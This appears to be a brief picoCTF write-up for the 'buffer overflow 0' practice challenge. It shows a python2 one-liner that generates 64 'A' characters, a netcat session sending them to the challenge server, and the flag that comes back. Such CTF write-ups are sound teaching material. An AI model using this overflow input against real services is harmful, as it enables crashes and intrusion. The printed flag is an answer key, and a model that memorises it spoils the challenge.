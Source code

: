 # [buffer overflow 0](https://play.picoctf.org/practice/challenge/257?category=6&page=1&search=)
* When encounter 'fgets,' I realize that there might be an opportunity here. Since the FLAGSIZE_MAX is set to 64, I can input 64 bytes to potentially reach the 'signal' function and get the flag.


## flag

```
python2 -c 'print "A"*64'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

nc saturn.picoctf.net 65443
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```


